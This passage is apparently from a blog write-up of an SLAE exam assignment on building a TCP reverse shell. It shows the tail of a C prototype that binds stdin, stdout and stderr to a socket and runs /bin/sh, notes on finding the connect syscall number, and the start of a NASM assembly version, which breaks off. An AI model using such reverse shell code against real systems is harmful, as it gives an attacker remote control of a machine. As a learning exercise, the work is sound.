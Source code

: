 ```c
  // CHANGE STD FILE DESCRIPTORS
  // Overwrite old stdin, stdout, stderr fd's with the socket fd
  dup2(sockfd, 0); // stdin
  dup2(sockfd, 1); // stdout
  dup2(sockfd, 2); // stderr


  // EXECVE SHELL
  // Execute the new program /bin/sh, which will now use the socket to
  //  handle it's stdin, stdout, and stderr
  execve("/bin/sh", NULL, NULL);


  // EXIT
  // This will never happen because execve closes out for us.
  return 0;
}
```  


## Initial Research

#### Syscalls

Most of the research has been done as a part of [assignment 1]({% post_url 2018-02-22-slae-exam-1-tcp-bind-shell %}). However, I did need to figure out the syscall number of `connect`. It wound up being `362`, or `0x16a`.

To learn how I found the syscall numbers, take a look at the [assignment 1 write-up]({% post_url 2018-02-22-slae-exam-1-tcp-bind-shell %}).


## The Final Product

And that's really all that was needed besides some minor code modification. We just replace the _BIND_, _LISTEN_, and _ACCEPT_ sections with a new _CONNECT_ section, and everything works as intended. Hopefully, the code can speak for itself. I've tried to keep it well documented.

**_assignment2.asm_**

```
; Filename: assignment2.nasm
; Author:  Adam Brown
; Website:  https://coffeegist.com
;
;
; Purpose: Create TCP Reverse Shell for SLAE Exam, Assignment 2

global _start

section .text
_start:

  ; Clear out registers before we get started
  xor ebx, ebx
  xor ecx, ecx
  xor edx, edx
  mul ebx ; zero out eax
  xor esi, esi
  xor edi, edi

; CREATE SOCKET
; int socket(int domain, int type, int protocol) //
; syscall number: 359 (0x167)
;
```